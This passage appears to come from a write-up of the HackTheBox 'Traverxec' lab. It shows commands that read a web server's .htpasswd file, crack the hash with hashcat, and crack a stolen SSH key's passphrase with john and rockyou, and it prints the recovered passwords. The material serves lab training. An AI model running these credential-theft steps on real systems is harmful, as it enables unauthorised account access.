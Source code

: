 ```
homedirs_public         public_www
```
David's password hash - going to pass to hashcat:
```
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
cracked:
```
shotop@kali:~/Pentesting/HackTheBox/Boxes/traverxec/hashes$ cat cracked.txt 
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```
the conf file above points toward a public home directory:
```
www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
drwx--x--x 5 david david 4096 Oct 25 17:02 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
```

the protected-file-area directory has a .tgz file in it.  I unzipped it to the /tmp directory since I was getting permission errors trying to unzip it to the david/home dir. 

```
www-data@traverxec:/tmp/home/david$ ls -la
total 12
drwxr-xr-x 3 www-data www-data 4096 Jan  5 22:34 .
drwxr-xr-x 3 www-data www-data 4096 Jan  5 22:34 ..
drwx------ 2 www-data www-data 4096 Oct 25 17:02 .ssh
```

In the extracted .ssh directory, there are public and private ssh keys.  I copied the private `id_rsa` key over to my local kali and used john the ripper to crack it's passphrase:

```
shotop@kali:~/Pentesting/HackTheBox/Boxes/traverxec$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash

shotop@kali:~/Pentesting/HackTheBox/Boxes/traverxec$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-01-05 22:19) 0.4504g/s 6460Kp/s 6460Kc/s 6460KC/sa6_123..*7¡Vamos!
Session completed
```
